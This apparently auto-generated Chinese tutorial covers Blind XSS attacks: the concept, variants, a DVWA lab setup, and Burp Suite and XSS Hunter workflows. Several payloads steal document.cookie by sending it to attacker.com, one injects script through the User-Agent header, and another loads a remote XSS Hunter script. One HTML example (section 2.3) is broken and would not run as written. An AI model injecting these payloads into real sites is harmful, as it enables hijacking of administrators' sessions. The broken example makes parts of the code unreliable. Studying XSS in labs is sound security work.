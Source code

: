 # Blind XSS攻击检测的攻击技术

## 1. 技术原理解析

### 1.1 Blind XSS概述
Blind XSS（盲跨站脚本攻击）是一种特殊类型的跨站脚本攻击（XSS），攻击者注入的恶意脚本不会立即在目标页面上执行，而是在后续的某个时间点或特定的用户交互中被触发。Blind XSS通常发生在应用程序的后台管理界面、日志系统、邮件系统等场景中，攻击者无法直接观察到注入的脚本是否被执行，因此称为“盲”XSS。

### 1.2 底层实现机制
Blind XSS的底层机制与传统的XSS类似，都是通过注入恶意脚本（通常是JavaScript）来窃取用户数据或执行其他恶意操作。不同之处在于，Blind XSS的注入点通常位于应用程序的后台或日志系统中，攻击者无法直接观察到注入的脚本是否被执行。因此，攻击者需要通过间接的方式来确认攻击是否成功，例如通过监控外部服务器上的日志或接收来自目标系统的HTTP请求。

### 1.3 攻击流程
1. **注入恶意脚本**：攻击者将恶意脚本注入到目标应用程序的输入字段中，例如表单、URL参数、HTTP头等。
2. **脚本存储**：注入的脚本被存储到目标系统的数据库、日志文件或其他持久化存储中。
3. **脚本触发**：当管理员或其他用户查看存储的数据时，恶意脚本被执行。
4. **数据窃取**：恶意脚本将用户的敏感信息（如Cookie、会话令牌等）发送到攻击者控制的服务器。

## 2. 变种和高级利用技巧

### 2.1 基于DOM的Blind XSS
在基于DOM的Blind XSS中，恶意脚本通过修改DOM结构来触发XSS漏洞。攻击者可以通过注入特定的JavaScript代码来操纵DOM，从而在后续的用户交互中触发XSS漏洞。

**示例代码：**
```javascript
document.write('<img src="http://attacker.com/steal?data=' + document.cookie + '">');
```

### 2.2 基于HTTP头的Blind XSS
某些应用程序会将HTTP头信息存储在日志中，攻击者可以通过伪造HTTP头来注入恶意脚本。当管理员查看日志时，恶意脚本被执行。

**示例代码：**
```http
GET / HTTP/1.1
Host: target.com
User-Agent: <script>alert('XSS')</script>
```

### 2.3 基于邮件系统的Blind XSS
在邮件系统中，攻击者可以通过发送包含恶意脚本的邮件来触发Blind XSS。当管理员查看邮件时，恶意脚本被执行。

**示例代码：**
```html
<img src="http://attacker.com/steal?data=' + document.cookie + '">
```

### 2.4 基于日志系统的Blind XSS
在日志系统中，攻击者可以通过注入恶意脚本来触发Blind XSS。当管理员查看日志时，恶意脚本被执行。

**示例代码：**
```javascript
<script>document.location='http://attacker.com/steal?data='+document.cookie;</script>
```

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
为了模拟Blind XSS攻击，我们可以使用以下工具和环境：

- **目标应用程序**：使用DVWA（Damn Vulnerable Web Application）作为目标应用程序，其中包含多个XSS漏洞。
- **攻击者服务器**：使用Python的SimpleHTTPServer来模拟攻击者控制的服务器，用于接收窃取的数据。

**步骤：**
1. 下载并安装DVWA：`git clone https://github.com/digininja/DVWA.git`
2. 配置DVWA：将DVWA放置在Web服务器根目录下，并配置数据库。
3. 启动攻击者服务器：`python -m SimpleHTTPServer 8000`

### 3.2 攻击步骤
1. **注入恶意脚本**：在DVWA的XSS（Stored）页面中，注入以下恶意脚本：
   ```javascript
   <script>document.location='http://attacker.com:8000/steal?data='+document.cookie;</script>
   ```
2. **触发脚本**：以管理员身份登录DVWA，查看存储的XSS数据。
3. **窃取数据**：在攻击者服务器上查看接收到的数据，确认攻击成功。

## 4. 实际命令、代码或工具使用说明

### 4.1 使用Burp Suite进行Blind XSS检测
Burp Suite是一款常用的Web应用程序安全测试工具，可以用于检测Blind XSS漏洞。

**步骤：**
1. **配置Burp Suite**：启动Burp Suite，并配置浏览器代理。
2. **拦截请求**：使用Burp Suite拦截目标应用程序的请求。
3. **注入恶意脚本**：在请求中注入恶意脚本，例如：
   ```javascript
   <script>document.location='http://attacker.com:8000/steal?data='+document.cookie;</script>
   ```
4. **发送请求**：将修改后的请求发送到目标应用程序。
5. **监控响应**：在Burp Suite中查看响应，确认恶意脚本是否被存储。

### 4.2 使用XSS Hunter进行Blind XSS检测
XSS Hunter是一款专门用于检测Blind XSS的工具，可以自动生成恶意脚本并监控攻击结果。

**步骤：**
1. **注册XSS Hunter**：访问https://xsshunter.com/，注册一个账户。
2. **生成恶意脚本**：在XSS Hunter中生成一个恶意脚本，例如：
   ```javascript
   <script src="https://xsshunter.com/your_unique_id"></script>
   ```
3. **注入恶意脚本**：将生成的恶意脚本注入到目标应用程序中。
4. **监控结果**：在XSS Hunter中查看攻击结果，确认是否成功窃取数据。

## 5. 总结
Blind XSS攻击是一种隐蔽性较强的攻击方式，攻击者通过注入恶意脚本并在后续的用户交互中触发漏洞，从而窃取敏感信息。通过深入理解Blind XSS的底层机制和变种，结合实际的攻击步骤和工具使用，可以有效地检测和防御此类攻击。在实际的Web应用程序安全测试中，建议使用多种工具和技术进行综合检测，以确保应用程序的安全性。

---

*文档生成时间: 2025-03-11 16:25:31*
